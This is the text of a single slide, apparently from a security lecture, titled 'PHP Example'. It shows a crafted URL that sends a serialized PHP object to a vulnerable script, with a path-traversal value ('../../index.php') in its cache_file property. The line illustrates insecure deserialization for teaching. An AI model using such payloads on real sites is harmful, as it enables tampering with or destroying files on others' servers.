

# PHP Example
What if you send:

http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}